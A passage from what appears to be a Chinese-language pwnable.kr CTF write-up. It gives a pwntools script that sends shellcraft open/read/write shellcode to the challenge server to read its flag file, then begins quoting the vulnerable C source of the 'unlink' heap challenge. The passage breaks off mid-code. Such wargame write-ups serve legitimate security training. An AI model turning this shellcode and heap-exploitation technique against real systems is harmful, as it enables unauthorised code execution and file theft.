 这里把所有寄存器都清零了，这样实际上更方便我们写 `shellcode`。

考虑如何用系统调用读取文件并显示出来：

```c
fd = open(filepath, O_RDONLY);
read(fd, buf, 100);
write(1, buf, 100); // stdout
```

然后我们利用 `pwntools` 的 `shellcraft` 模块，将上面的代码转化成汇编即可。我们要取得 `fd` 也就是 `open` 的返回值，显然在 `rax` 里；然后从 `rax` 中读取 flag 内容，放到栈上，也就是 `rsp` 上：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = remote('pwnable.kr', 9026)

shellcode = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', 0)

shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1,'rsp', 100)

p.recvuntil('shellcode:')
p.sendline(asm(shellcode))

p.interactive()
```

## unlink

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
    struct tagOBJ* fd;
    struct tagOBJ* bk;
    char buf[8];
}OBJ;

void shell(){
    system("/bin/sh");
}

void unlink(OBJ* P){
    OBJ* BK;
    OBJ* FD;
    BK=P->bk;
    FD=P->fd;
    FD->bk=BK;
    BK->fd=FD;
}
int main(int argc, char* argv[]){
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
```